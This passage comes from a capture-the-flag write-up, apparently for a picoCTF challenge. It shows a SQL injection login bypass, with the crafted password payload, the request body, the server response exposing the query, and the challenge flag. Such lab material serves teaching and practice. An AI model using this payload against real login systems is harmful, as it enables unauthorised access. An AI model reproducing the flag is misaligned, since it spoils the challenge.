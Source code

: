 There is one last important detail we need in order to build the payload, that's the location of our injection payload.

We can see here that the password comes before the username (usually it's the other way around), and that's where we need to inject our payload.

![](assets/ctf_more_sqli_login_attempt.png)

The payload will do the following:
- close the `password` input using a single quotation mark `'`
- add an always true logical condition `OR 1=1`
- start comment block to ignore the rest of the authentication query `/*`

The final payload will look like this, and will be used in the `password` field 

```
adadadadad' OR 1=1 /*
```

Here is the request body

```
username=username doesn't matter in this case&password=adadadadad' OR 1=1 /*
```

And here is the upper snippet of the response

```html
HTTP/1.1 302 Found
Host: saturn.picoctf.net:52304
Date: Wed, 04 Dec 2024 15:26:30 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.19
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-type: text/html; charset=UTF-8



<pre>username: username doesn't matter in this case
password: adadadadad' OR 1=1 /*
SQL query: SELECT id FROM users WHERE password = 'adadadadad' OR 1=1 /*' AND username = 'username doesn't matter in this case'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}</p>
<!DOCTYPE html>
<html lang="en">
	<head>
```
